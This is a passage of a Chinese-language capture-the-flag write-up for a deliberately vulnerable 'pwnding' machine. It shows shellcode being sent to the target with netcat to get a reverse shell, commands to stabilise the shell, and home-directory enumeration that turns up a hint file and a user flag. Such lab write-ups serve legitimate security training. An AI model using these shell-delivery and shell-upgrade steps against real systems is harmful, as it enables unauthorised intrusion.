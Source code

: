 ### 加载shellcode

```bash
┌──(kali㉿kali)-[~/temp/easypwn]
└─$ nc $IP 6666 < payload      
```

另一边就弹过来了。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506101849649.png" alt="image-20250610110132979" style="zoom:50%;" />

## 提权

### 稳定shell

悲伤.jpg 换了一个`kali`，`pwncat-cs`用不了了：

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty size
stty rows 38 columns 116
```

我没用上述命令，我选择修了一下俺的`pwncat-cs`。。。。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506101849650.png" alt="image-20250610113754830" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506101849651.png" alt="image-20250610113809510" style="zoom:50%;" />

### 信息搜集

```bash
(remote) lamb@pwnding:/home/lamb$ ls -la
total 28
drwxr-xr-x 2 lamb lamb 4096 Feb 24 07:52 .
drwxr-xr-x 3 root root 4096 Feb 19 20:34 ..
lrwxrwxrwx 1 lamb lamb    9 Feb 19 09:27 .bash_history -> /dev/null
-rw-r--r-- 1 lamb lamb  220 Feb 19 09:23 .bash_logout
-rw-r--r-- 1 lamb lamb 3526 Feb 19 09:23 .bashrc
-rw-r--r-- 1 lamb lamb  807 Feb 19 09:23 .profile
-rw------- 1 lamb lamb    0 Feb 20 03:18 .viminfo
-rw-r--r-- 1 root root  528 Feb 24 07:52 this_is_a_tips.txt
-rw-r--r-- 1 lamb lamb   39 Feb 24 07:52 use3e3e3e3e3sr.txt
(remote) lamb@pwnding:/home/lamb$ cat this_is_a_tips.txt
There is a fun tool called cupp.
I heard it's a good social engineering dictionary generator.
Are there really people that stupid these days? haha.
There is only one way to become ROOT, which is to execute getroot!!!
And don't forget, this is a PWN type machine.

有一个很好玩的工具叫做 cupp.
听说那是一个不错的社会工程学字典生成器.
现在真的还会有人这么蠢吗？haha.
成为 ROOT 的方法只有一条，就是执行 getroot !!!
而且你不要忘记了，这是一个pwn类型的机器.
(remote) lamb@pwnding:/home/lamb$ cat use3e3e3e3e3sr.txt
flag{3a463d08f2ae11efbeb6000c29094b2d}
```
